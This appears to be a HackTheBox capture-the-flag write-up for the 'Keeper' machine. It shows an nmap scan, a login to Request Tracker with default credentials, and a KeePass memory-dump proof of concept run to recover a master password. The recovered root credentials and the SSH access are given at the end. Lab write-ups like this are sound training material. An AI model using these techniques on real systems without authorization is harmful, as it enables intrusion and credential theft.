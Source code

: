 # Keeper

## NMAP&#x20;

```rust
nmap -sCV -T5 10.129.229.41
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-19 11:41 PST
Warning: 10.129.229.41 giving up on port because retransmission cap hit (2).
Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.25% done; ETC: 11:41 (0:00:00 remaining)
Nmap scan report for 10.129.229.41
Host is up (0.090s latency).
Not shown: 902 closed tcp ports (conn-refused), 96 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.37 seconds
```

## HTTP Enumeration (80)

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Login Portal&#x20;

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Exploiting Request Tracker

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

It was not vulnerable to those CVE's to bypass login but I was able to use default credentials

{% embed url="https://github.com/bestpractical/rt" %}

```
NOTE: The default credentials for RT are: - User: root - Pass: password Not changing the root password from the default is a SECURITY risk!
```

#### Web Enumeration

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## User Access

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

We have a keepass dmp and database.  Using this tool we can extract the .dmp file

{% embed url="https://github.com/matro7sh/keepass-dump-masterkey" %}

#### Dumping .dmp

```
❯ python3 poc.py -d /home/p3ta/htb/boxes/keeper/KeePassDumpFull.dmp
2024-01-19 12:40:52,001 [.] [main] Opened /home/p3ta/htb/boxes/keeper/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Pasting the special charaters into google gives us the password

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

```
rødgrød med fløde
```

<figure><img src=".gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

root: F4><3K0nd!

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Using puttyget i converted the key to is\_rsa and was able to use SSH

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>





